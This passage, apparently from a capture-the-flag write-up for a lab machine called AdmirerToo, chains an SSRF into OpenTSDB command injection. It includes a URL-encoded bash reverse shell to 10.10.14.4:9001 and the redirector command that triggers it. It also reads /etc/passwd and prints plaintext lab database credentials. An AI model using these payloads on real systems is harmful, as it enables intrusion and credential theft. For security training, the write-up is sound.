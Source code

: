 ### RCE
Ok, now lets get a reverse shell. Make sure to put the payload inside single quotes and urlencode:
```bash
# ORIGINAL
'/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.4/9001 0>&1"'

# URL ENCODED
%27%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%34%2f%39%30%30%31%20%30%3e%26%31%22%27
```

Setup the redirector with our urlencoded command:
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=%5B33:system(%27%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%34%2f%39%30%30%31%20%30%3e%26%31%22%27)%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
```
 
 Start a netcat listener on port 9001, intercept the database login and modify the parameters to trigger the SSRF -> RCE and we are in:
 ![](images/image6.png)

## Shell as opentsdb
From here we can get the `/etc/passwd` to check the users in the machine:
```bash
opentsdb@admirertoo:/$ cat /etc/passwd | grep sh$

root:x:0:0:root:/root:/bin/bash
jennifer:x:1002:100::/home/jennifer:/bin/bash
```

We see there is a user called `jennifer`.

### Found credentials
Enumerating the machine we find credentials in the plugins directory of adminer:
```bash
opentsdb@admirertoo:/$ cat /var/www/adminer/plugins/data/servers.php     

<?php
return [
  'localhost' => array(
//    'username' => 'admirer',
//    'pass'     => 'bQ3u7^AxzcB7qAsxE3',
// Read-only account for testing
    'username' => 'admirer_ro',
    'pass'     => '1w4nn4b3adm1r3d2!',
    'label'    => 'MySQL',
    'databases' => array(
      'admirer' => 'Admirer DB',
    )
```